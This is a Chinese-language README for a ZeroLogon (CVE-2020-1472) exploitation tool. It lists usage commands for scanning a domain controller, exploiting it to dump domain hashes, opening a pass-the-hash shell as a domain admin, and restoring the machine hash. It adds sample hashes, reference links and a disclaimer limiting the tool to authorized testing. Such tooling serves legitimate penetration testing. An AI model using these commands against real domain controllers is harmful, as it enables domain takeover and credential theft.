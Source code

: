 # ZeroLogon exploitation script

## 简介与使用

集合检测与利用一体脚本，节省攻防中漏洞利用的时间，使用方式如下

```
1.扫描
python zerologon_exploit.py dc_ip -scan

2.漏洞利用
python zerologon_exploit.py dc_ip -exp
python zerologon_exploit.py dc_ip -exp -user user #dump域内指定用户

3.pth登录域控
python zerologon_exploit.py dc_ip -shell
python zerologon_exploit.py dc_ip -shell -user domain_admins
python zerologon_exploit.py dc_ip -shell -user domain_admins -hashes aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b #若dc_name.ntds中没有该域管hash可以进行指定

4.恢复域控机器hash
python zerologon_exploit.py dc_ip -recovery
python zerologon_exploit.py dc_ip -recovery -user domain_admins
python zerologon_exploit.py dc_ip -recovery -user domain_admins -hashes aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b #若dc_name.ntds中没有该域管hash可以进行指定

pth和恢复域控机器Hash默认使用administrator进行操作，如真实环境没有该账户，则可-user指定域管账户
```



## 参考链接

https://github.com/SecuraBV/CVE-2020-1472

https://github.com/risksense/zerologon

https://github.com/bb00/zer0dump

https://github.com/SecureAuthCorp/impacket

## 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描。**

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
